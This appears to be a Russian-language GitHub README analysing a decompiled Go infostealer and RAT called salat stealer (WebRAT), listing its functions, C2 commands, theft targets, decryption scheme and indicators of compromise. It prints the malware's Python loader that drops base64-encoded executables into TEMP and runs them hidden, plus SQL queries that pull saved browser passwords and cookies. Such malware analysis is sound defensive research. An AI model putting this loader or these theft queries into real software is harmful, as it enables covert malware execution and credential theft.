

# webrat-decompilation-deobfuscation

Декомпилированная структура spyware salat stealer (WebRAT) v6.0.3

## Структура файлов

```
salat/
├── funcs.go
├── init.go
├── main.go
├── sets.go
├── task.go
├── tsc.go
└── screenshot/
    └── screenshot.go
```

## Статистика

| Категория | Функций |
|-----------|---------|
| C2 и сеть | ~30 |
| Кража браузеров (Chromium) | ~25 |
| Кража Firefox (Gecko) | ~6 |
| Кража мессенджеров | ~5 |
| Кража крипто/Steam | ~6 |
| Слежка | ~20 |
| Elevation (UAC bypass) | ~10 |
| HVNC / удалённый стол | ~10 |
| Память и процессы | ~10 |
| Архивация | ~5 |
| Самоуничтожение | ~3 |
| Утилиты | ~15 |
| Всего | ~250 |

## main.go

Точка входа и главный цикл:

```
main.main
main.tloop
main.tloop.func1
main.newTask
main.doTask
main.doTask.gowrap1..5
main.updTaskStatus
main.changeEndpoint
main.initConnection
main.initConnection.func1
main.initConnection.func2
main.c2Server
main.dec
main.rq
main.ensure
main.log
main.reportError
```

C2 и сеть:

```
main.p2pSocks
main.proxySocks
main.proxy
main.forward
main.copyConn
main.(*Conn).Serve
main.(*socks5Conn).Serve
main.(*socks5Conn).handshake
main.(*socks5Conn).processRequest
main.tonResolve
main.tryTonResolve
main.tryRQ
```

WebSocket-сессия (RAT):

```
main.(*wsSess).Start
main.(*wsSess).Stop
main.(*wsSess).recvWss
main.(*wsSess).execCommand
main.(*wsSess).shellCommand
main.(*wsSess).sendShellCommand
main.(*wsSess).startShell
main.(*wsSess).stopShell
main.(*wsSess).ffdesktop
main.(*wsSess).sepDesktop
main.(*wsSess).ffwcam
main.(*wsSess).ffwmic
main.(*wsSess).p2p
main.(*wsSess).errorHandler
```

## funcs.go

Кража хром браузеров (Chromium):

```
main.getChrome
main.getChromeLogins
main.getChromeCookies
main.getChromeAutofils
main.getChromeToken
main.DecryptChrome
main.decryptData
main.decryptDataBrave
main.decryptDataEdge
main.GetChromiumMasterKeys
main.GetAppBoundKey
main.StartAPPB
main.DPAPI
main.getLocalEncryptorDataKey
main.loginPBE.Decrypt
main.metaPBE.Decrypt
main.nssPBE.Decrypt
main.NewASN1PBE
main.ASN1PBE
```

Кража firefox (gecko):

```
main.getGecko
main.getGeckoLogins
main.getGeckoCookies
main.GetGeckoMasterKey
main.DecryptGecko
```

Кража яндекс и других:

```
main.getYandexLogins
```

Кража мессенджеров и игр:

```
main.getDiscord
main.getSteams
main.decodeSteam
main.parseVdf
main.decodeFromTonAddress
main.getEp
main.getBC
```

Кража системных данных:

```
main.Steal
main.findLsassProcess
main.findProcessByName
main.getClipboardText
main.getDevices
main.getDrives
main.getRandomFolders
main.getRandomProcesses
main.getSystemToken
main.impersonateSystem
main.DuplicateUserTokenFromSessionID
main.duplicateHandle
main.openHndl
main.readFileFromHandle
main.readProcFile
main.NtQuerySystemHandles
```

Слежка:

```
main.runKeylogger
main.startKeylogger
main.stopKeylogger
main.keyPressCallback
main.specialKeyName
main.windowChangeCallback
main.SetWinEventHook
main.getScreen
main.sendScreen
main.screenStream
main.getWebcams
main.getMics
main.getActiveWin
main.getForegroundWindow
main.EnumWindows
main.GetWindowText
main.IsIdle
```

Дешифровка:

```
main.decryptAesGcm256
main.aes128CBCDecrypt
main.des3Decrypt
main.decryptAPPB
main.DPAPI
main.dec
main.md5str
main.RandStringRunes
```

Elevation (UAC bypass):

```
main.Elevate
main.IElevator
main.IElevatorVtbl
main.IElevatorBrave
main.IElevatorVtblBrave
main.IElevatorEdge
main.IElevatorVtblEdge
main.enablePrivilege
main.isAdmin
main.impersonateSystem
main.getSystemToken
```

Работа с памятью и процессами:

```
main.suspendProcessThreads
main.unlockProcs
main.findProcessByName
main.GetProcessPath
main.newWindowsProcess
main.WindowsProcess
main.Process
main.PROCESSENTRY32
```

Архивация:

```
main.zipFiles
main.zipFilesCreate
main.zipAddFS
main.unzip
```

Самоуничтожение:

```
main.selfDelete
main.Suicide
main.checkDupe
```

Утилиты:

```
main.bytesToBSTR
main.fixBytes
main.isValidString
main.isInvalidUnicode
main.GetHWID
main.GetHWID2
main.getBestMethod
main.getlock
main.staticinstall
main.periodicFlush
main.errorHandler
main.preErrorHandler
```

## init.go

```
main.init
main.init.0
main.initConnection
main.initConnection.func1
main.initConnection.func2
main.map.init.0
main.map.init.1
main.map.init.2
main.map.init.3
```

## sets.go

```
(хранит C2, RSA-ключ, AES-ключ, endpoint)
```

## task.go

```
main.newTask
main.doTask
main.doTask.gowrap1..5
main.updTaskStatus
```

## tsc.go

```
(Telegram Stealer Client или Task Scheduler Client)
```

## screenshot/screenshot.go

```
salat/screenshot.Capture
salat/screenshot.CaptureRect
salat/screenshot.CreateImage
salat/screenshot.CreateImage.func1
salat/screenshot.enumDisplayMonitors
salat/screenshot.getDesktopWindow
```

---

## НАХОДКИ

### 1. main.dec — 6 режимов дешифровки

Из дизассемблера `0x8d3170`:

```
режим 0 — nil
режим 1 — AES-GCM-256
режим 2 — XOR с предыдущим байтом
режим 3 — XOR с ключом
режим 4 — рекурсия: Mode 2 → Mode 3
режим 5 — рекурсия: Mode 3 → Mode 2
```

Псевдокод:

```go
func dec(data []byte, mode int) []byte {
    switch mode {
    case 0: return nil
    case 1: return aesGcm256(data, aesKey)
    case 2: return xorPrev(data)
    case 3: return xorKey(data, xorKey)
    case 4: return dec(dec(data, 2), 3)
    case 5: return dec(dec(data, 3), 2)
    }
}
```

### 2. main.doTask — 14 команд

Из дизассемблера `0x8e2930`:

```
1  → Suicide()                        — самоуничтожение
2  → chansend1(ack)                   — heartbeat/Ack
3  → downloadFile + cmd.exe           — скачать и запустить
4  → wsSess.Start()                   — WebSocket RAT-сессия
5  → os_exec.Command()                — запуск процесса
6  → downloadFile + updTaskStatus()   — скачать + обновить статус
7  → sendScreen()                     — стриминг экрана
8  → shellCommand()                   — интерактивный shell
9  → Steal()                          — полный сбор данных
a  → downloadFile + cmd.exe + Suicide() — скачать, запустить, удалиться
b  → time.Sleep()                     — задержка
c  → downloadFile + cmd.exe           — скачать и запустить
d  → p2pSocks()                       — SOCKS5-прокси
e  → executeCommand()                 — удалённое выполнение
```

### 3. main.Steal — полный список целей

Из дизассемблера `0x8e5bd0`:

```
UserInformation.txt          — HWID, IP, isAdmin, разрешение экрана
Monitor0.jpg … Monitor4.jpg  — до 5 скриншотов
Browsers\Cookies.txt         — cookies (Chrome, Edge, Brave, Firefox)
Browsers\Logins.txt          — логины и пароли
Browsers\Autofills.txt       — автозаполнение
Clients\DiscordTokens.txt    — токены Discord
Clients\SteamTokens.txt      — токены Steam
Clients\tdata                — Telegram-сессия
Crypto\                      — MyMonero, Exodus, Electrum
Extensions\                  — MetaMask, Phantom, TronLink, Rabby
```

### 4. main.getEp — пайплайн расшифровки C2

```
hex_decode → Mode 4 → hex_decode → Mode 1 (AES-GCM) → URL
```

### 5. main.getBC — RSA + TON-fallback

Псевдокод:

```go
func getBC(arg int) []byte {
    block := rsaBlocks[arg]           // 516 байт
    x := bigInt(gb(block))            // key stream
    n := bigInt(mode4(block))         // модуль
    rsa := exp(x, 0x10001, n)         // RSA
    return dec(dec(rsa, 4), 1)        // Mode 4 → AES-GCM
}
```

### 6. main.tonResolve — TON blockchain falback

```
1. RSA-расшифровка двух блоков (0xc956a0, 0xc958a4)
2. SHA-256("wallet")
3. Построение TON Cell
4. Сериализация в BOC
5. POST-запрос на TON API (method=dnsresolve)
6. Парсинг ответа (FromBOCMultiRoot)
7. Извлечение адреса (LoadAddr → Address.String)
```

### 7. AES-ключ

```
Mode2(MD5("biba")) = 938587070d8f3f11351eb19e08ca3f74
```

Деривация из `main` @ `0x8d54c0`:

```asm
0x8d54e4  call main.md5str        ; MD5("biba")
0x8d5508  call main.dec           ; Mode 2
0x8d553f  mov [0xfaee28], edx     ; запись ключа
```

### 8. XOR-ключ - динамический

Из `axt @ 0x00faee38`:

```asm
GetHWID 0x8d2cc7  mov eax, [0xfaee38]    ; чтение
GetHWID 0x8d2cd0  mov [0xfaee38], edx    ; ЗАПИСЬ
```

`GetHWID` читает `MachineGuid` из реестра:

```
HKLM\SOFTWARE\Microsoft\Cryptography\MachineGuid
```

Потом прогоняет через `main.dec(mode=1)` и записывает в `0xfaee38`

**XOR-ключ зависит от machineguid устройства**

Так же эта часть является опровержением статьи от cybersecurity-see.com 


### 9. 6 RSA-блоков

| Адрес | Назначение |
|-------|-----------|
| `0xc94e90` | getBC arg=1 |
| `0xc95094` | getBC arg=2 |
| `0xc95298` | getBC arg=3 |
| `0xc9549c` | getBC arg=4 |
| `0xc956a0` | tonResolve #1 |
| `0xc958a4` | tonResolve #2 |

блок - 516 байт:
- `+0x00`: маркер `a5 a7 a5 a5`
- `+0x04`: 512 байт зашифрованных данных

### 10. Python-загрузчик 

```python
def run_exe_from_b64(b64_data, wait=False):
    raw = base64.b64decode(b64_data)
    temp_dir = os.environ.get('TEMP', tempfile.gettempdir())
    filename = os.path.join(temp_dir, f'tmp_{uuid.uuid4().hex[:8]}.exe')
    f = open(filename, 'wb')
    f.write(raw)
    if wait:
        subprocess.run([filename], shell=True, creationflags=134217728)
    else:
        subprocess.Popen([filename], shell=True, creationflags=134217728)
    return filename

if __name__ == '__main__':
    path1 = run_exe_from_b64(EXE1_B64, wait=True)
    path2 = run_exe_from_b64(EXE2_B64, wait=True)
```

---

## Ключевые артефакты

C2 endpoint:

```
GETbldpcnwincpugpumemadm[0]/saat/numMK:1//v10KEYkey'"'nil01_"
```

RSA ключ:

```
MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQCTJPWl2JbiGm5m/JFe2+V04s4xiCtCB+aljdutGzQkiCjbds0Di6uoxn4flbwAP3Xc1t0xssQVDG8mvAmrXBDwgolOEhHPMY8hP5/PjtLmuKfIOKKG0SKzRR60VckinIck799q3Hut1lr5o/qg78FBx5BGPg7I3+OguNL1iw8QIDAQAB
```

Сертификат:

```
Subject: CN=VenomRAT
Issuer: CN=VenomRAT Server, OU=qwqdanchun, O=VenomRAT By qwqdanchun, L=SH, C=CN
Valid: 2022-08-14 → 2033-05-23
```

DoH-резолверы:

```
https://cloudflare-dns.com/dns-query?name=
https://1.1.1.1/dns-query?name=
https://dns.google/resolve?name=
```

SQL-запросы:

```
SELECT LogonId, StartTime, LogonType FROM Win32_LogonSession WHERE LogonType=2
SELECT a11, a102 from nssPrivate
SELECT origin_url, username_value, password_value FROM logins
SELECT name, encrypted_value, host_key, path, expires_utc FROM cookies
```

Цели кражи:

```
SOFTWARE\Valve\Steam
Roaming\Mozilla\Firefox\Profiles
Local\Elements Browser\User Data
Local\Sputnik\Sputnik\User Data
lsass.exe
Metamask, TonKeeper, SuiWallet, Maiar, DEFI
```

## Инструменты анализа

```
GoReSym
Rizin
pyinstxtractor
upx
strings
ghidra
```

## Предупреждение

Материал предоставлен исключительно в образовательных и исследовательских целях.
Автор не несёт ответственности за использование в противоправных целях.

## Источники

- https://github.com/kaandemir993/Salat-Stealer-Telegram-Proxy-Decoy-C2-Analysis
- https://darkatlas.io/blog/salat-stealer-analysis-go-based-rat-c2-resilience-and-info-stealing-capabilities
- https://cybersecurity-see.com/emergence-of-salat-stealer-a-new-era-in-malware-threats/

Благодарю dark atlas и kaandemir993 за предоставленную информацию
